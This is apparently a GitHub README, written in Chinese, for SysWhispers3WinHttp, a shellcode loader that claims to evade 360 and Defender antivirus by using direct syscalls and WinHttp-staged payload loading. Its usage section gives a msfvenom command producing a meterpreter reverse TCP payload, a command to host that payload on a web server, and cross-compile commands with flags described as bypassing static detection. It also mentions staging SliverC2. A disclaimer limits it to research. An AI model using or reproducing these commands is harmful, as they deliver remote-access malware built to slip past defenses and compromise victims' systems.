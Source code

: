 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender等杀软。

## 0x00 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志：
2023/06/06 支持64位GCC编译且可通过Stager方式上线SliverC2，增添编译参数绕过静态检测。

## 0x02 使用：

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

## 0x03 演示：

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a134f8bd-922d-4132-af9d-c8eee6b07fc1)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
